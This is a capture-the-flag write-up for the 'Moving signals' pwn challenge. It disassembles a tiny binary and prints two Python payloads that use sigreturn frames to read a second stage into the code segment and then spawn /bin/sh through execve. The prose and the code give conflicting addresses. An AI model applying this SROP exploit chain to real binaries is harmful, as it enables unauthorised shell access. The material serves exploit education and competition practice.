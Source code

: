 # Moving signals
#### Description
We don't like giving binaries that contain loads of information, so we decided that a small program should do for this challenge. Even written in some custom assembly. I wonder how this could be exploited.
#### Author
Tango
#### Points and solves
442 points, 91 solves.


We are given an extermly small binary:

```asm
0x0000000000041000 <+0>:     mov    rdi,0x0
0x0000000000041007 <+7>:     mov    rsi,rsp
0x000000000004100a <+10>:    sub    rsi,0x8
0x000000000004100e <+14>:    mov    rdx,0x1f4
0x0000000000041015 <+21>:    syscall
0x0000000000041017 <+23>:    ret
0x0000000000041018 <+24>:    pop    rax
0x0000000000041019 <+25>:    ret
```

## The vulnerability:
Well, of course we have full control over ```rip``` using the read syscall.
In addition we have a ```syscall``` gadget to use for ```sigreturn``` and ```execve```



## 1. Getting sigreturn:
```python
payload = b"A"*8 + p64(pop_rax) + p64(15) + p64(syscall_ret)
frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 0
frame.rsi = 0x41025
frame.rdx = 0x300
frame.rsp = 0x41025
frame.rip = syscall_ret
payload += bytes(frame)
p.send(payload)
```
This payload sets ```rax = 0xf``` and syscalls, the frame that is loaded gives the registers the values:
1. ```rax = 0``` for ```read``` syscall
2. ```rdi = 0``` for ```stdin```
3. ```rsi = 0x401025``` is the only known address that is also writeable, (which is right after the given code)
4. ```rsp = 0x401025``` is to align the stack right back to where we are reading into.
5. ```rip = syscall_ret``` to execute this read syscall.
Basically we read the next phase of this exploit into the code segment of the binary, and after that has been done, 
We will return to whatever that will be written to address ```0x401025```

## 2. Getting shell:
```python
payload = p64(pop_rax) + p64(15) + p64(syscall_ret)
frame = SigreturnFrame()
frame.rax = 59
frame.rdi = 0x41025+248 + 0x18
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0x41000
frame.rip = syscall_ret
payload += bytes(frame) + b"/bin/sh\x00"
```

This utilizes another ```sigreturn``` to load the values required to perform ```execve(/bin/sh)```
1. ```rax = 59``` for ```execve``` syscall
2. ```rdi = 0x401026 + 248 + 0x18``` for the address that ```/bin/sh``` will be on the stack.
3. ```rsp = 0x41000``` just to have some stack space for saftey.


And we get shell :).
